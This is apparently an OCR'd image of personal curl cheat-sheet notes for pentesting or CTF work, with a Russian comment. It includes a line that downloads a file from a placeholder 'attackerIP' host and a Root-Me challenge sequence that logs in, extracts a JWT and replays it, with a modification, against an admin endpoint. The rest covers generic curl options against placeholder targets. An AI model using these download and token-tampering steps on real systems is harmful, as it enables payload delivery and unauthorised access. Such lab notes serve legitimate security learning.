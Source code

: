 скачивает файл как в винде таки в линуксе типа wget  
curl attackerIP/file -O tonewfile  
  
jwt1=$(curl -s -X POST http://challenge01.root-me.org/web-serveur/ch63/login --data '{"username":"admin","password":"admin"}' -H "Content-Type: application/json" | jq '.access_token' | tr -d '"')  
curl -X GET http://challenge01.root-me.org/web-serveur/ch63/admin -H "Authorization: Bearer $jwt1="  
  
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py  
python get-pip.py  
python -m pip install requests  
  
# curl: show only header  
curl -I https://some-domain.com  
  
# curl: parameter in request, -d data, -s show error  
curl -s -d grant_type=password -d param1=value1 -d param2=value2 https://target.com/some/path  
  
# curl: print POST body of request  
curl --trace-ascii /dev/stdout -s -d param1=value1 https://target.com/some/path  
  
# curl: verbose, additional output  
curl -v https://target.com/some/path  
  
# curl: use GET and insert 2 lines into Header  
curl -X GET -H 'Accept: application/json' -H 'eyJhbBar...' 'https://target.com/some/path'  
  
# curl: download page + write to file  
curl --silent http://target.com -o target.html